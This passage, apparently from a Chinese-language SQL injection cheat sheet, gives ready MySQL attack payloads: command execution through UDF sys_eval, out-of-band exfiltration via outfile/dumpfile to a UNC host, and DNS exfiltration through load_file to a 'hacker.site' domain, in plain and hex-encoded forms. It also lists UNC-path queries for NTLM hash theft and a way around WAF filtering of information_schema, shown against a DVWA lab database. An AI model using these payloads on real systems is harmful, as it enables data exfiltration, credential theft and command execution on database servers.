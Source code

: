 ## MySQL UDF 命令执行

首先，您需要检查服务器上是否安装了 UDF。

```powershell
$ whereis lib_mysqludf_sys.so
/usr/lib/lib_mysqludf_sys.so
```

然后，您可以使用 `sys_exec` 和 `sys_eval` 等函数。

```sql
$ mysql -u root -p mysql
输入密码: [...]
mysql> SELECT sys_eval('id');
+--------------------------------------------------+
| sys_eval('id') |
+--------------------------------------------------+
| uid=118(mysql) gid=128(mysql) groups=128(mysql) |
+--------------------------------------------------+
```

## MySQL 带外

```powershell
select @@version into outfile '\\\\192.168.0.100\\temp\\out.txt';
select @@version into dumpfile '\\\\192.168.0.100\\temp\\out.txt
```

### DNS 数据泄露

```sql
select load_file(concat('\\\\',version(),'.hacker.site\\a.txt'));
select load_file(concat(0x5c5c5c5c,version(),0x2e6861636b65722e736974655c5c612e747874))
```

### UNC 路径 - NTLM 哈希窃取

```sql
select load_file('\\\\error\\abc');
select load_file(0x5c5c5c5c6572726f725c5c616263);
select 'osanda' into dumpfile '\\\\error\\abc';
select 'osanda' into outfile '\\\\error\\abc';
load data infile '\\\\error\\abc' into table database.table_name;
```

## MySQL WAF 绕过

### information_schema 的替代方案

`information_schema.tables` 的替代方案

```sql
select * from mysql.innodb_table_stats;
+----------------+-----------------------+---------------------+--------+----------------------+--------------------------+
| database_name  | table_name            | last_update         | n_rows | clustered_index_size | sum_of_other_index_sizes |
+----------------+-----------------------+---------------------+--------+----------------------+--------------------------+
| dvwa           | guestbook             | 2017-01-19 21:02:57 |      0 |                    1 |                        0 |
| dvwa           | users                 | 2017-01-19 21:03:07 |      5 |                    1 |                        0 |
...
+----------------+-----------------------+---------------------+--------+----------------------+--------------------------+
```